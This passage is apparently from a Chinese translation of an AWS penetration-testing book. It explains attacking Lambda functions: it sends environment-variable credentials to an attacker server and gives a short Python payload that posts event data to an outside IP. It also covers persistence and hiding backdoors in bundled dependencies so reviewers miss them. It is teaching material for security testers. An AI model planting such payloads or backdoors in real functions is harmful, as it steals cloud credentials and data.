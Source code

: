 它使用`requests`库发送一个 HTTP `POST`请求，其中包含使用 OS 库获取的环境变量，并且将超时设置为`0.01`，以便发送请求；代码立即执行，而不是等待任何响应并导致 Lambda 函数本身超时。一旦将此有效载荷添加到目标 Lambda 函数中，我们只需等待函数通过正常手段被调用，最终我们将获得凭证发送到我们的服务器：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-aws-pentest-kali/img/286eb121-c4d3-46c6-ba28-336429a9dc39.png)

接收包含 Lambda 函数所有环境变量的 POST 请求

# 数据外泄

数据外泄很可能与我们之前提升权限的方式非常相似，即我们很可能编辑现有函数并从中外泄数据。我们可以通过多种不同的方式来实现这一点，其中一些列在这里：

+   修改现有函数并通过`"event"`和`"context"`参数外泄数据

+   创建一个新的函数和相关触发器来响应 AWS 环境中的某些事件，例如在第十一章中，*使用 Boto3 和 Pacu 来维持 AWS 持久性*，我们每次创建新用户时就将凭据外泄

+   修改现有函数，并将我们的外泄有效负荷放置在函数中间的某个位置，以外泄在函数正常执行期间被收集/修改的数据

这里还有许多其他攻击向量；你只需要有创造力。

如果我们只是想要我们的有效负荷外泄传递到 `"event"` 参数中的值，我们可以使用前一个有效负荷的略微修改版本：

```

try:
    from botocore.vendored import requests
    requests.post('http://1.1.1.1', json=event, timeout=0.01)
except:
    pass

```

确保注意 Lambda 函数的指定超时时间。你不希望你的外泄占用太长时间，以致 Lambda 函数超时并完全失败，因此，当通过 Lambda 外泄大量数据时，最好要么确保超时已经设置为很长的时间，要么自己去修改它以增加超时时间。问题在于，目标的 Lambda 账单会增加，因为它们的函数完成所需时间比正常情况下要长，这将引起注意。

# 持久性

我们不打算深入探讨持久性，因为我们在上一章已经涵盖了这一点，但是，和攻击 Lambda 的其他方法一样，持久性可以通过新的 Lambda 函数或编辑现有的 Lambda 函数来建立。持久性也可能意味着一些不同的事情。你想要对 Lambda 函数持久访问 bash shell，还是想要对 AWS 环境进行持久访问，或者两者都要？这完全取决于上下文和作为攻击者所处的情况最适用的是什么。甚至可能值得在多个 Lambda 函数中设置后门，以防其中一个被捕捉并被防御者移除。

# 保持潜伏

这是你可以发挥创造力的地方。显然，向发送数据到随机 IP 地址的函数中添加的随机代码将会引起熟悉该代码并重新审视它的任何人的怀疑。在这种情况下，捕捉到的指标可能甚至没有被捕捉到的提示，但是开发人员碰巧注意到 Lambda 函数中的这段奇怪的代码，并提出了一个问题，然后你被抓住了。如果在整个函数的开头放置恶意代码，那么这将会更明显，因此在代码的某处嵌套你的有效负荷将有所帮助。

将负载放置在入口函数（`lambda_handler()`）中不会改变任何内容，并且几乎不可能被人工审查/发现的地方怎么样？听起来好像太好了，但这不是真的！恶意黑客多年来一直在使用类似的技术，使其软件/硬件后门能够长时间保持活动状态，所以让我们将这种技术应用到 Lambda 中，并保持低调！

这种技术涉及到给 Lambda 函数依赖项设置后门。并非每一个你可能需要的库都包含在 Lambda 的基本库集中，就像我们在直接`import requests`时看到的那样，所以开发人员被迫自行收集这些依赖项，并将它们与其余的代码一起上传到 Lambda。我们将简要介绍一个简单示例。

假设我们无法通过`from botocore.vendored import requests`导入`requests`库，并且我们需要将该库包含在我们的 Lambda 代码中。可以通过将`requests`库与我们的基本 Lambda 代码一起包含，并将其上传为`.zip`文件到 Lambda 来解决这个问题。

对于这个示例，我们有一个`lambda_function.py`文件，导入了`requests`并向[`google.com/`](https://google.com/)发出请求，然后打印响应文本。`requests`库以其全部内容包含在旁边，以允许在以下截图中的第 2 行代码中使用`import requests`。`requests`库还需要`chardet`、`urllib3`、`idna`和`certify`库，因此这些也已被包含进来：
